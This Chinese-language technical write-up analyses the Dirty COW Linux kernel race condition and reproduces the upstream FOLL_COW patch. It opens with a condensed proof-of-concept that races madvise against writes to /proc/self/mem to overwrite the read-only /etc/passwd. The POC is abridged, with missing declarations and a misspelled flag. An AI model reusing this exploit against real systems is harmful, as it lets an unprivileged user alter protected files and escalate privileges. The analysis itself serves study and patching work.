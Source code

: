 ```yaml
---
layout: default
---
```


# Dirty COW Analysis
## POC

POC很简单：
* 主进程只读打开权限文件，并mmap到map地址，权限是READ & PRIVATE
* madvise进程不停释放map对应的内存页，madvise(map, 100, MADV\_DONNTNEED)
* procselfmem进程以O\_RDWR权限代开/proc/self/mem伪文件，试图写入任何内容到权限文件

```c
void * map;
void * madviseThread(void * arg) {
    while(1) {
    madvise(map, 100, MADV_DONNTNEED);
    }
}
void * procselfmemThread(void * arg) {
    int f = open("/proc/self/mem", O_RDWR);
    lseek(f, map, SEEK_SET);
    write(f, arg, strlen(arg));
}

int main() {
    f = open("/etc/passwd", O_RDONLY);
    map = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, f, 0);
    pthread_create(&pth1, NULL, madviseThread, "");
    pthread_create(&pth2, NULL, procselfmemThread, "anything");
    pthread_join(&pth1, NULL);
    pthread_join(&pth2, NULL);
    return 0;
}
```

## 核心代码分析

* 核心逻辑：
- write("/proc/self/mem", map, "anything")时，会触发核心的内存页管理系统。
  - 首次，缺页并调页(page in)
  - 第二次，页表没有写权限，去处FOLL\_WRITE请求标志(这是合理的：因为open成功了，说明可以写，页表的权限不可写也是自洽的，例如copy-on-write)。
  - 第三次，去除FOLL\_WRITE标志请求页面，成功请求。
* BUG逻辑：
  - 首次，缺页并调页(page in)
  - 第二次，页表没有写权限，去处FOLL\_WRITE请求标志(这是合理的：因为open成功了，说明可以写，页表的权限不可写也是自洽的，例如copy-on-write)。
  - madvise清空map的页表项
  - 第三次，去除FOLL\_WRITE(只读访问)，发现缺页，调页(page in)
  - 第四次，只读访问获取页面，并成功写入"anything"，置页表项标志为脏
  - 最后写回文件

## Patch

```c
diff --git a/include/linux/mm.h b/include/linux/mm.h
index e9caec6..ed85879 100644
--- a/include/linux/mm.h
+++ b/include/linux/mm.h
@@ -2232,6 +2232,7 @@ static inline struct page *follow_page(struct vm_area_struct *vma,
 #define FOLL_TRIED	0x800	/* a retry, previous pass started an IO */
 #define FOLL_MLOCK	0x1000	/* lock present pages */
 #define FOLL_REMOTE	0x2000	/* we are working on non-current tsk/mm */
+#define FOLL_COW	0x4000	/* internal GUP flag */
 
 typedef int (*pte_fn_t)(pte_t *pte, pgtable_t token, unsigned long addr,
 			void *data);
diff --git a/mm/gup.c b/mm/gup.c
index 96b2b2f..22cc22e 100644
--- a/mm/gup.c
+++ b/mm/gup.c
@@ -60,6 +60,16 @@ static int follow_pfn_pte(struct vm_area_struct *vma, unsigned long address,
 	return -EEXIST;
 }
 
+/*
+ * FOLL_FORCE can write to even unwritable pte's, but only
+ * after we've gone through a COW cycle and they are dirty.
+ */
+static inline bool can_follow_write_pte(pte_t pte, unsigned int flags)
+{
+	return pte_write(pte) ||
+		((flags & FOLL_FORCE) && (flags & FOLL_COW) && pte_dirty(pte));
+}
+
 static struct page *follow_page_pte(struct vm_area_struct *vma,
 		unsigned long address, pmd_t *pmd, unsigned int flags)
 {
@@ -95,7 +105,7 @@ retry:
 	}
 	if ((flags & FOLL_NUMA) && pte_protnone(pte))
 		goto no_page;
-	if ((flags & FOLL_WRITE) && !pte_write(pte)) {
+	if ((flags & FOLL_WRITE) && !can_follow_write_pte(pte, flags)) {
 		pte_unmap_unlock(ptep, ptl);
 		return NULL;
 	}
@@ -412,7 +422,7 @@ static int faultin_page(struct task_struct *tsk, struct vm_area_struct *vma,
 	 * reCOWed by userspace write).
 	 */
 	if ((ret & VM_FAULT_WRITE) && !(vma->vm_flags & VM_WRITE))
-		*flags &= ~FOLL_WRITE;
+	        *flags |= FOLL_COW;
 	return 0;
 }
```
